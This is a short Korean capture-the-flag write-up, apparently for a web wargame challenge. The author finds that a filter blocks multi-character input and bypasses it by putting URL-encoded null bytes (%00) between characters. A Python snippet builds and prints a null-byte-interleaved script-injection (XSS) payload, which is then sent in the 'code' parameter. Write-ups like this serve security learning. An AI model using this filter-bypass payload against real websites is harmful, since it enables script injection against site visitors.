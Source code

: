 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-14-23-59.png)


# **Write-Up**

뭔 놈의 필터링이 있는지 거의 모든 2글자 이상의 데이터를 넣으면 no hack이라고 나온다.

![](images/2022-01-03-14-25-34.png)

하지만 글자 사이에 %00(NULL을 URL encoding한 값)을 넣으면 출력된다.

![](images/2022-01-03-14-25-39.png)

inject해야 하는 데이터를 만들어보자.

```python
target  = '<script>alert(1);</script>'
code    = ''
for c in target: code += c + '%00'
print(code)

[Output]
<%00s%00c%00r%00i%00p%00t%00>%00a%00l%00e%00r%00t%00(%001%00)%00;%00<%00/%00s%00c%00r%00i%00p%00t%00>%00
```

?code=뒤에 직접 집어넣으면 점수를 획득할 수 있다.

![](images/2022-01-03-14-25-52.png)